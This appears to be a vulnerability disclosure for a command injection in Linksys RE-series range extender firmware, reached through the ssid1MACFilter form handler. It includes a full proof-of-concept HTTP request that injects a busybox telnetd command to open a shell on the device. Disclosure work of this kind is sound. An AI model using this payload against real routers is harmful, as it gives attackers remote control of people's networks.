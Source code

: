 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500
>
> There is also a stack overflow vulnerability



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `ssid1MACFilter` function, `apselect_%d、newap_text_%d` is directly passed by the attacker, so we can control the `apselect_%d、newap_text_%d` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> The function wirelessWizard also has the same problem



## PoC

We set `apselect_0` as **`busybox telnetd -l /bin/sh -p 2232`** , and the router will excute it,such as:

```http
POST /goform/ssid1MACFilter HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/access_control.shtml
Cookie: session_id=Cnt5SSB248Ul7oDmaCIaEBoz4opRQjQb
Upgrade-Insecure-Requests: 1

AclMode=1&apselect_0=`busybox telnetd -l /bin/sh -p 2232`&newap_text_0=
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

